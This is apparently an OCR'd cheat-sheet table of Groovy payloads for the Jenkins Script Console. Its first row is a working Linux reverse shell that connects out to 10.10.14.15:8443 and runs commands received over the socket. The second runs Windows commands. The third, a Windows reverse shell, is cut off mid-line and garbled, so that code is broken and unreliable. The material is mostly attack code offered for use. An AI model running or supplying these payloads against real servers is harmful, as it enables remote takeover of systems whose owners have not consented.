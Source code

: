 |   |   |
|---|---|
|`r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 \| while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()`|Groovy-based reverse shell payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. Will work when the underlying OS is Linux|
|`def cmd = "cmd.exe /c dir".execute(); println("${cmd.text}");`|Groovy-based payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. This will allow webshell access and to execute commands on the underlying Windows system|
|`String host="localhost"; int port=8044; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new So);`|Groovy-based reverse shell payload/code that can work with admin acess to the `Script Console` of a `Jenkins`site. Will work when the underlying OS is Windows|